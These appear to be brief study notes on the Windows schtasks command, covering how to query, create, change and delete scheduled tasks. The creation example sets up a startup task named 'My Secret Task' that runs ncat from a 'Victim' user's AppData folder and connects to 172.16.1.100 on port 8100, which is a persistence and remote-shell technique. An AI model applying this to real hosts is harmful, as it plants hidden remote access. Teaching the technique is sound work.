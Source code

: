 What are Scheduled Task?
- Scheduled tasks are an excellent way for administrators to ensure that tasks they want to run regularly happen
- The Task Scheduler allows us as admins to perform routine tasks without having to kick them off manually
Display Scheduled Tasks
- View tasks that already exist on our host: 'SCHTASKS /Query /V /FO list'
Create a new scheduled task
- /create - tell it what we are doing
- /sc - set a schedule
- /tn - name
- /tr - action to take
- New Task Creation Example: 'schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"'
Change a Task
- 'schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"'
Delete a Task
- 'schtasks /delete  /tn "My Secret Task" '

